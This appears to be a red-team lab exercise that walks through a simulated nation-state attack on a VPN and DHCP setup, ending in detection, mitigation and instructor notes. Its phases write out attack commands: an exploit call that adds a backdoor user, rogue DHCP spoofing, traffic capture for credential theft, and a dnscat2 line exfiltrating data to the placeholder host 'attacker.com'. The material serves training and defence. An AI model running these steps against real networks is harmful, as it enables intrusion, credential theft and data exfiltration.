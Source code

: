 # Operation DHCP Deception

## Adversary profile

- Designation: APT-29 ("Shadow Hydra")
- Level: Nation-state sophistication
- Primary TTPs: 
  - T1190 (Exploit Public-Facing Application)
  - T1040 (Network Sniffing) 
  - T1557 (Adversary-in-the-Middle)
  - T1098 (Account Manipulation)
- Motivation: Steal simulated research data on MycoSec's cryptographic projects by compromising VPN integrity and pivoting to internal resources.

## Phase 1: Reconnaissance (T1590/T1595)
Objective: Identify VPN endpoints, DHCP services, and internal network topology.

1.  Scan for VPN Endpoints:
    ```bash
    nmap -sS -p 443,1194,51820 192.168.1.0/24 -oN vpn_scan.txt
    ```
    - Finding: OpenVPN UDP/1194 and WireGuard UDP/51820 detected at `192.168.1.5`.

2.  Discover DHCP Services:
    ```bash
    nmap -sU -p 67,68 192.168.1.0/24 --script dhcp-discover
    ```
    - Finding: DHCP server at `192.168.1.1` (router).

3.  Map Internal Routes:
    ```bash
    traceroute -n 192.168.2.100  # Internal research server
    ```
    - Finding: Traffic routes via `192.168.1.1` (gateway).

Detection Evasion: Use fragmented packets and random scan delays to avoid SIEM alerts.

## Phase 2: Initial Access (T1190)
Objective: Compromise the VPN gateway using a known vulnerability.

1.  Exploit CVE-2023-46805 (Ivanti VPN Auth Bypass):
    ```bash
    python3 ivanti_exploit.py --target 192.168.1.5 --command "useradd -m backdoor"
    ```
2.  Establish Foothold:
    ```bash
    ssh backdoor@192.168.1.5  # Password: default compromised
    ```
3.  Extract VPN Configs:
    ```bash
    cat /etc/openvpn/server.conf  # Reveals internal IP range: 192.168.2.0/24
    ```

Persistence: Add SSH key to `authorized_keys` for reliable access.

## Phase 3: DHCP Spoofing (T1557)
Objective: Become the rogue DHCP server to hijack traffic.

1.  Deploy Rogue DHCP Server (using `dnsmasq`):
    ```bash
    dnsmasq --interface=eth0 --dhcp-range=192.168.1.100,192.168.1.200,24h \
            --dhcp-option=121,0.0.0.0/0,192.168.1.254  # Malicious gateway
    ```
2.  Force Client Renewals:
    ```bash
    dhcping -s 192.168.1.254 -c 192.168.1.50  # Target research workstation
    ```
3.  Verify Hijacking:
    ```bash
    ip route show  # On target: default via 192.168.1.254 (attacker)
    ```

Impact: 100% of lab VPN traffic now routes through attacker-controlled node.

## Phase 4: Traffic Interception (T1040)
Objective: Decrypt and analyze redirected traffic.

1.  Enable IP Forwarding (maintain stealth):
    ```bash
    sysctl -w net.ipv4.ip_forward=1
    iptables -t nat -A POSTROUTING -j MASQUERADE
    ```
2.  Capture Plaintext Data:
    ```bash
    tcpdump -i eth0 -w intercepted.pcap host 192.168.2.100 and port 80
    ```
3.  Harvest Credentials:
    - Analyze HTTP packets in Wireshark for basic auth strings.

Critical Finding: Simulated credentials `researcher:MycoSec2025!` extracted from HTTP login.

## Phase 5: Lateral Movement (T1021)
Objective: Pivot to the research server (`192.168.2.100`).

1.  SSH Access:
    ```bash
    ssh researcher@192.168.2.100  # Using stolen credentials
    ```
2.  Explore Critical Data:
    ```bash
    find /opt/mycosectest -name "*.pdf" -o -name "*.zip"  # Research archives
    ```
3.  Exfiltrate via DNS Tunneling (evade detection):
    ```bash
    dnscat2 --dns server=attacker.com,port=53 --secret=myco_exfil
    ```

Data Stolen: 2.5 GB of simulated cryptographic research data.

## Defensive Detection & Mitigation

### Detection points
1.  DHCP Snooping Alert: Unauthorized DHCP server detected at `192.168.1.254`.
2.  VPN Auth Anomaly: Multiple failed logins followed by success from unusual IP.
3.  DNS Exfiltration Alert: Unusual DNS query volume to `attacker.com`.

## Mitigations
- Implement DHCP Snooping on network switches to block rogue servers.
- Enforce MFA for VPN access to prevent credential exploitation.
- Segment Networks to restrict lateral movement (e.g., VLANs for research servers).
- Monitor DNS Traffic for anomalous patterns (e.g., high volume of TXT queries).

## Instructor Notes
- Lab Safety: All attacks confined to isolated VLANs (no production risk).
- Tools Provided:
  - `ivanti_exploit.py` (simulated CVE-2023-46805)
  - `dnsmasq` for DHCP spoofing
  - `dnscat2` for exfiltration
- Variants: Try WireGuard instead of OpenVPN to compare exploitation techniques.
